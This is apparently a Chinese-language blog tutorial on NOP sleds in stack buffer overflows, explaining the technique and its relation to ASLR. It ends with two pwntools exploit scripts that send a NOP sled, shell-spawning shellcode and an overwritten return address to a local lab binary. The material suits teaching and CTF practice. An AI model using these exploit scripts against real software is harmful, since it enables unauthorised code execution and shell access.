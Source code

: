 # NOPs


由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），
所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充
若干长度的 NOP 。

NOP，无操作（**N**o **OP**eration）指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候
只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的
控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的
误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有
相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP
本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled
可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化（ASLR）](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址
的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数
的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一
定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

{{<admonition type="info" title="例子">}}

为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，
若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址
即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，
所以为 $255 + 1$）

{{</admonition>}}

不用 NOP Sled，函数返回地址 ---> 攻击代码</br>
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 intel x86 汇编中，NOP 指令是 `\x90` 。

<!--more-->

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个
[问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 EXP

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

{{<admonition type="warning">}}

确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。

{{</admonition>}}

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240             # 构建 NOPs
payload += asm(shellcraft.sh())     # 构建 shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664 + 120)    # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的
意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的
长度，因为它可能会篡改栈上的其它内容。

{{</admonition>}}

注意：NOP 在某些架构中不是 `\x90` 。如果你需要其他架构的 NOP，可以使用 pwntools：

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 EXP

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.nop()) * 240  # 构建 NOPs
payload += asm(shellcraft.sh())        # 构建 shellcode
payload = payload.ljust(312, b'A')     # 溢出 Padding
payload += p32(0xffffd664 + 120)       # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```


---

> 作者: CuB3y0nd  
> URL: https://www.cubeyond.net/nops/  

